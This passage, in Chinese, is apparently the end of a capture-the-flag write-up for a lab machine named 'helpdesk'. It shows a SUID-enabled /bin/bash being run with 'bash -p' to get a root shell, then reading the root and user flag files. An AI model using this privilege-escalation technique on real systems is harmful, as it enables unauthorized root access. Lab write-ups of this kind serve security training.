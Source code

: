 可以看到 `/bin/bash` 已经成功被设置了SUID位。现在，执行 `bash -p` 即可获得root权限的shell。

```bash
helpdesk@helpdesk:~/1$ bash -p
bash-5.2# id
uid=1001(helpdesk) gid=1001(helpdesk) euid=0(root) egid=0(root) groups=0(root),1001(helpdesk)
bash-5.2# cat /root/root.txt /home/helpdesk/user.txt 
flag{request_has_been_escalated}
flag{ticket_approved_by_thedesk}
```

成功获取root权限并读取最终的flag。